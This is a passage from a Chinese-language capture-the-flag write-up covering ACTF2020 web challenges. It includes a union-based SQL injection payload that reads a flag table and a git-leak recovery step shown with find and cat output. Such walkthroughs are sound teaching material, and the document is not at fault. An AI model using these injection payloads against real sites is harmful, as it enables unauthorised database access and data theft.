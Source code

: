 找到拿铁就给`flag`啦：

![cy](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/web/chayan/cy.png)



## babysql

- 题目描述：-
- 考察点：sql注入
- 难度：简单
- 分值：200
- 完成人数：10

简单的sql注入

![sqlpage](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/web/babysql/sql_page.png)

根据输入的id查询用户名和密码

`id=-1' order by 1,2,3,4 #`时回显消失，所以一共是就3列数据

然后删除线那里给了表名，直接`union select`就能拿到`flag`，payload:

> `id=-1' union select 1,flag,3 from flag #`

![sql](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ACTF2020/web/babysql/sql.png)



## whats git

- 题目描述：-
- 考察点：githack
- 难度：入门
- 分值：200
- 完成人数：6

`Githack`，然后找`flag`


```shell
% find ./ | grep flag 
./新建文件夹 - 副本 (7)/新建文件夹 - 副本 (3)/新建文件夹 - 副本 (4)/新建文件夹 - 副本 (3)/flag

% cat "./新建文件夹 - 副本 (7)/新建文件夹 - 副本 (3)/新建文件夹 - 副本 (4)/新建文件夹 - 副本 (3)/flag"
ACTF{.git_leak_is_dangerous}%                                                       
```



## backup_file

- 题目描述：-
- 考察点：bak文件、php弱类型
- 难度：简单
- 分值：200
- 完成人数：8
